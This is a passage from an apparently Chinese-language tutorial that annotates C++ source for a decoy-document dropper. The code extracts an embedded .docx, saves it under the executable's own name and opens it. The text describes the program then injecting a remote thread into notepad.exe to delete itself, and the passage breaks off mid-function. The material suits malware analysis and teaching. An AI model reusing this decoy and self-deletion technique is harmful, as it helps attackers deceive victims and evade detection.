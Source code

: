 - 从结构体中获取函数指针

  ```cpp
  kDeleteFileA = (wDeleteFileA)DS->dwDeleteFile;
  ```

  将结构体成员 `dwDeleteFile` 强制转换为 `wDeleteFileA` 类型，并赋值给 `kDeleteFileA`。这样，`kDeleteFileA` 就指向 `DeleteFileA` 函数。

- 调用函数删除文件

  ```cpp
  kDeleteFileA(DS->dwDeleteFile_param_1);
  ```

---

### main

main 函数实现了如下功能

1. 从资源中提取一个 `.docx` 文件，并将其保存到磁盘上。
2. 打开这个 `.docx` 文件。
3. 通过创建和注入远程线程的方式，让另一个进程（`notepad.exe`）删除当前程序（自删除）。

---

```cpp
int main(int argc, char* argv[])
{
    CHAR PathFileName[MAX_PATH] = { 0 };
    CHAR FileName[MAX_PATH] = { 0 };

    // 1. 从资源中提取 `.docx` 文件
    HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(101), "docx");
    //得到资源文件HRSRC句柄
    HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
    //得到资源文件ResourceGlobal句柄
    DWORD FileSize = SizeofResource(NULL, Resource);
    //得到资源文件的大小
    LPVOID PFILE = LockResource(ResourceGlobal);
    //得到指向资源文件内容的指针
    GetModuleFileNameA(NULL, PathFileName, MAX_PATH);
    //当前进程的路径和名称
    strcpy_s(FileName, strrchr(PathFileName, '\\')+1);
    /*
    strrchr得到第二个参数最后出现的位置
    d:\\xxxxx\\xxxxxx\\xxxx.exe在执行后得到\\xxxx.exe
    所以需要+1把\\去掉
    最后得到了完整的文件名
    用strcpy_s把文件名复制到FileName中
    */
    for (size_t i = 0; i < MAX_PATH; i++)
    {
        if(FileName[i] == '.')
        {
            FileName[i + 1] = 'd';
            FileName[i + 2] = 'o';
            FileName[i + 3] = 'c';
            FileName[i + 4] = 'x';
            break;
        }
    }
    //循环找文件名中的.，找到后将文件名的后缀改为docx
    //这个步骤主要是为了方便，以后只需要改exe的名称不需要到代码中来改
    HANDLE FILE = CreateFileA(FileName, FILE_ALL_ACCESS, 0, NULL, CREATE_ALWAYS, 0, NULL);
    //创建文件名相同的文件
    DWORD dwSize;
```